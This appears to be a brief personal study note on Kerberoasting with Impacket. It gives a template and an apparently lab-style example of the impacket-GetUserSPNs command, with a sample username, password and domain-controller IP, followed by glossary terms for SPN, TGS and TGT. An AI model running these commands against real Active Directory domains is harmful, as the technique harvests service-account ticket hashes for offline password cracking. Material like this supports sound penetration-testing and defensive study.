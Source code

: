
```
impacket-GetUserSPNs domain-nam/domain-user:password -dc-ip x.x.x.x -request
```

```
impacket-GetUserSPNs xyz.com/alice:bubbles -dc-ip 192.168.111.155 -request
```

![[Pasted image 20230906222705.png]]

*Service Principal Name (SPN)*

*Ticket Granting Service (TGS)*

*Ticket Granting Ticket (TGT)*

